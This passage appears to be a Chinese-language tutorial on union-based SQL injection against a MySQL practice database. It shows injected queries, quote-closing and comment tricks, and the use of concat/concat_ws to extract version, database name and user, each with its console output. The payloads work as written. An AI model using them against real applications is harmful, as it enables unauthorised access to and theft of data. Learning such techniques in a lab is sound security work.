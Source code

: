   对于有回显得情况，最直接的就是在回显处注入我们需要的数据像下面这样

  ```mysql
  mysql> select * from users where id='-1'union select version(),database(),user() -- 'limit 0,1;
  +--------+----------+----------------+
  | id     | username | password       |
  +--------+----------+----------------+
  | 5.7.17 | security | root@localhost |
  +--------+----------+----------------+
  1 row in set (0.00 sec)
  ```

  其中要注意：需要使原查询失败（也就是id=-1）；union select的条件（和前查询同数量的列和类型）；闭合sql语句，也就是说id处的单引号和limit前的单引号闭合（这是保证sql语句不能出错，和后面介绍的报错注入有所不同），其中id处的单引号没什么好说的，单引号配对，双引号配对…，而后面的单引号除了用上面注释的方法（"—+"或者“#”）来忽略掉还可以用下面逻辑注释的方法来注释

  ```mysql
  mysql> select * from users where id='1' and id='2';
  Empty set (0.00 sec)
  #这里的逻辑也可以换为or什么的，也可以写为'2'='2'这种形式
  mysql> select * from users where id='1' and '2';
  +----+----------+----------+
  | id | username | password |
  +----+----------+----------+
  |  1 | Dumb     | Dumb     |
  +----+----------+----------+
  1 row in set (0.00 sec)
  #通过这条语句，可以发现逻辑注释和第一条语句的区别，逻辑的左右是select和'0',而第一条语句是两个id
  mysql> select * from users where id='1' and '0';
  Empty set (0.00 sec)
  ```

  ok来看看如果我们的逻辑注释不是出现在条件（where）中的话会出现什么情况，比如出现在上面的union select中

  ```mysql
  mysql> select * from users where id='-1'union select version(),database(),user()and '1' limit 0,1;
  +--------+----------+----------+
  | id     | username | password |
  +--------+----------+----------+
  | 5.7.17 | security | 0        |
  +--------+----------+----------+
  1 row in set (0.00 sec)
  ```

  发现了把and的两端不再是select和'1'，而是user()和'1'，这样的运算肯定是false了，所以我们最后一条数据就不能显示出来，这也引出了如果返回的输出位有限的话，我们如何去输出超过输出位数据量的数据（或者说我们想要看到最后一位的user()数据），这里也就用到了concat和concat_ws，函数的用法可以help一下，这里不再贴出，看看使用的效果

  ```mysql
  mysql> select * from users where id='-1'union select concat(version(),'~',database(),'~',user()),2,3 and '1' limit 0,1;
  +--------------------------------+----------+----------+
  | id                             | username | password |
  +--------------------------------+----------+----------+
  | 5.7.17~security~root@localhost | 2        | 1        |
  +--------------------------------+----------+----------+
  1 row in set (0.00 sec)

  mysql> select * from users where id='-1'union select concat_ws('~',version(),database(),user()),2,3 and '1' limit 0,1;
  +--------------------------------+----------+----------+
  | id                             | username | password |
  +--------------------------------+----------+----------+
  | 5.7.17~security~root@localhost | 2        | 1        |
  +--------------------------------+----------+----------+
  1 row in set (0.00 sec)
  ```
